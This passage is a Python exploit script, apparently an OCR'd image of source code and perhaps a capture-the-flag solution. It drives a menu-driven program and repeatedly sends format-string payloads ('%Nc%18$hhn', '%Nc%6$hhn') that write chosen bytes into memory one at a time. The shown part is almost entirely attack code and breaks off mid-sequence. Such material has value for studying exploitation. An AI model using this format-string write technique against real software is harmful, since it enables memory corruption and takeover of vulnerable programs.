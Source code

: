 ```python
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 16) & 0xff)+'c%18$hhn')
#   readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------
#-----------
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+3) + 'c%6$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 24) & 0xff)+'c%18$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start) + 'c%6$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
```